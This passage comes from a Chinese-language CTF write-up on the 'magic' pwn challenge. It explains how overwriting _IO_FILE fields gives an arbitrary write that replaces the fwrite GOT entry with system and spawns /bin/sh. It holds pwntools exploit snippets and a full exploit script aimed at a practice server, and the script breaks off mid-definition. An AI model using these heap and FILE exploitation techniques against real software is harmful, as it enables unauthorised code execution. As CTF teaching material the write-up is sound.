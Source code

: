 ```
spell(p, 0, p64(heap_addr + 0x58) + p64(0) + p64(heap_addr + 0x58))
spell(p, 0, p64(0x602122) + p64(0x602123 + 0x100))
```

在泄漏完heap基址后，log_file结构如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01eb8a6e75d522a7a4.png)

可以看到_IO_write_ptr为0x2042030，这样的话我们去执行上面脚本的第一行，因为输出的长度为0x18，这样修改的话就会变成下图这样：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ec2876cae10710db.png)

这样的话，就符合了我们上面说的任意写的条件，接下来就可以去修改_IO_buf_baseh和_IO_buf_end。（也就是第二行代码）。

我在上文提到了：

_IO_new_file_underflow中在执行系统调用之前会设置一次FILE指针，将<br>
_IO_read_base、_IO_read_ptr、fp-&gt;_IO_read_end、_IO_write_base、IO_write_ptr全部设置为_IO_buf_base。

所以我们在执行完上面两行代码后_IO_write_ptr就会指向0x602122（它位于fwrite函数got表的下方）

接下来我们就要调整IO_write_ptr的值来修改got表。

```
spell(p, -2, 'x00')
    spell(p, -2, 'x01')
    spell(p, -2, 'x00')
    spell(p, 0, 'x00' * 2 + p64(libc_addr + system_offest)[0 : 6])
    spell(p, 0, '/bin/sh')
```

这里有一点需要注意，就是spell(p, -2, ‘x01’)，这里必须要大于0，因为：

[![](https://p2.ssl.qhimg.com/t019d37114e852bbaff.png)](https://p2.ssl.qhimg.com/t019d37114e852bbaff.png)

这里如果满足不了第一个if，就会跳转到muggle那部分。

完整的exp：

```
# coding:utf-8
from pwn import *
context(arch = 'amd64', os = 'linux')
context.log_level = 'debug'
debug=1

ip='111.198.29.45'
port='31577'
if debug == 1:
   p = process('./magic')
else:
   p = remote(ip, port)

puts_offest = 0x6f690
system_offest = 0x45390
puts_got = 0x602020
fwrite_got = 0x602090
log_addr = 0x6020E0
def debug():
    gdb.attach(p)
    pause()
def create(p, name):
    p.recvuntil('choice&gt;&gt; ')
    p.sendline('1')
    p.recvuntil('name:')
```